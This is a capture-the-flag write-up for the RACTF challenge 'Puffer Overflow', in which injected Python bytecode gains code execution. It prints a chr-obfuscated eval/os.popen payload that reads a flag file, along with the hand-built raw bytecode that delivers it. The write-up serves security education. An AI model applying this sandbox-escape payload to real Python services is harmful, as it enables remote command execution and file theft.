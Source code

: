 # Puffer Overflow

>Let's review the code. 

There's two interesting functions - put_on_stack, which generates some interesting python bytecode to put a value onto the stack, and returns it.

Then, there's execute bytecode. It takes some bytecode, and, well, executes it. How though?

It loads 256 constants - 1,2,3, etc. matching up to 1,2,3,etc. 
As global variables, it loads the functions chr, ord, globals, locals, getattr and setattr. 
We have to use these functions alone to gain RCE. Impossible? No. But lets look into how we can do this.

We input a name. It takes the first 32 bytes of this, and generates some byte code that puts this name onto the stack. 
It then prepends said bytecode to all bytes afterwards, and executes it. 
If we put 0-32 chars, this is fine, but if we input anymore, then from the 33th character onwards is executed as python bytecode!

We must generate python bytecode that utilises the small set of functions and variables we have to gain RCE. My final payload in python code form was globals()[chr(101)+chr(118)+chr(97)+chr(108)](chr(95)+chr(95)+chr(98)+chr(117)+chr(105)+chr(108)+chr(116)+chr(105)+chr(110)+chr(115)+chr(95)+chr(95)+chr(46)+chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)+chr(40)+chr(39)+chr(111)+chr(115)+chr(39)+chr(41)+chr(46)+chr(112)+chr(111)+chr(112)+chr(101)+chr(110)+chr(40)+chr(39)+chr(99)+chr(97)+chr(116)+chr(32)+chr(47)+chr(104)+chr(111)+chr(109)+chr(101)+chr(47)+chr(114)+chr(97)+chr(99)+chr(116)+chr(102)+chr(47)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)+chr(39)+chr(41)+chr(46)+chr(114)+chr(101)+chr(97)+chr(100)+chr(40)+chr(41))

Not very readable, but in normal python code, 
```python
globals()['eval']("__builtins__.__import__('os').popen("cat /home/ractf/flag.txt").read())
```
How can we do this? We can't just go about compiling a .pyc or code using compile() - those files create constants and globals to suit them. We can't do this however, we must only use constants and variables given to us. We can analyse the put_on_stack function, and see what it does

`b"t\x00"` - load the first global, chr. We can replace with \x02 to load the 3rd global, globals
`b"d<number>"` - load constant for argument. When doing globals(), we don't need this.
`b"\x83\x01"` - call current function with 1 argument
`b"\x17\x00"` - binary add. does first value on stack + second value. note it's called binary but it can be used to concatenate strings just like adding numbers bcoz its python at the end of the day

we can use this to generate bytecode to call globals, `b"t\x02\x83\x00"`. Then, we must dynamically construct the word "eval" using only chr via the same methods the put_on_stack function uses. After that, we use the BINARY_SUBSCR opcode, b"\x19\x00", which computes TOP1 = TOP1[TOP2]

Now what? Loaded on the stack is the function eval. Now, using the same method as put_on_stack again, we construct our python payload that cats the flag. Finally, we wrap it all up with a b"\x83\x01" - call the function eval, loaded from globals()['eval'], with one argument.

I ended up doing some enumeration, and finding `flag.tx`t in `/home/ractf`, then catting it.

This results in the flag ractf{Puff3rf1sh??}. I will post the final bytecode, my generation script, and the final exploit script below.


Bytecode: 
```
t\x02\x83\x00t\x00de\x83\x01t\x00dv\x83\x01\x17\x00t\x00da\x83\x01\x17\x00t\x00dl\x83\x01\x17\x00\x19\x00t\x00d_\x83\x01t\x00d_\x83\x01\x17\x00t\x00db\x83\x01\x17\x00t\x00du\x83\x01\x17\x00t\x00di\x83\x01\x17\x00t\x00dl\x83\x01\x17\x00t\x00dt\x83\x01\x17\x00t\x00di\x83\x01\x17\x00t\x00dn\x83\x01\x17\x00t\x00ds\x83\x01\x17\x00t\x00d_\x83\x01\x17\x00t\x00d_\x83\x01\x17\x00t\x00d.\x83\x01\x17\x00t\x00d_\x83\x01\x17\x00t\x00d_\x83\x01\x17\x00t\x00di\x83\x01\x17\x00t\x00dm\x83\x01\x17\x00t\x00dp\x83\x01\x17\x00t\x00do\x83\x01\x17\x00t\x00dr\x83\x01\x17\x00t\x00dt\x83\x01\x17\x00t\x00d_\x83\x01\x17\x00t\x00d_\x83\x01\x17\x00t\x00d(\x83\x01\x17\x00t\x00d'\x83\x01\x17\x00t\x00do\x83\x01\x17\x00t\x00ds\x83\x01\x17\x00t\x00d'\x83\x01\x17\x00t\x00d)\x83\x01\x17\x00t\x00d.\x83\x01\x17\x00t\x00dp\x83\x01\x17\x00t\x00do\x83\x01\x17\x00t\x00dp\x83\x01\x17\x00t\x00de\x83\x01\x17\x00t\x00dn\x83\x01\x17\x00t\x00d(\x83\x01\x17\x00t\x00d'\x83\x01\x17\x00t\x00dc\x83\x01\x17\x00t\x00da\x83\x01\x17\x00t\x00dt\x83\x01\x17\x00t\x00d \x83\x01\x17\x00t\x00d/\x83\x01\x17\x00t\x00dh\x83\x01\x17\x00t\x00do\x83\x01\x17\x00t\x00dm\x83\x01\x17\x00t\x00de\x83\x01\x17\x00t\x00d/\x83\x01\x17\x00t\x00dr\x83\x01\x17\x00t\x00da\x83\x01\x17\x00t\x00dc\x83\x01\x17\x00t\x00dt\x83\x01\x17\x00t\x00df\x83\x01\x17\x00t\x00d/\x83\x01\x17\x00t\x00df\x83\x01\x17\x00t\x00dl\x83\x01\x17\x00t\x00da\x83\x01\x17\x00t\x00dg\x83\x01\x17\x00t\x00d.\x83\x01\x17\x00t\x00dt\x83\x01\x17\x00t\x00dx\x83\x01\x17\x00t\x00dt\x83\x01\x17\x00t\x00d'\x83\x01\x17\x00t\x00d)\x83\x01\x17\x00t\x00d.\x83\x01\x17\x00t\x00dr\x83\x01\x17\x00t\x00de\x83\x01\x17\x00t\x00da\x83\x01\x17\x00t\x00dd\x83\x01\x17\x00t\x00d(\x83\x01\x17\x00t\x00d)\x83\x01\x17\x00\x83\x01
```
#### ractf{Puff3rf1sh??}
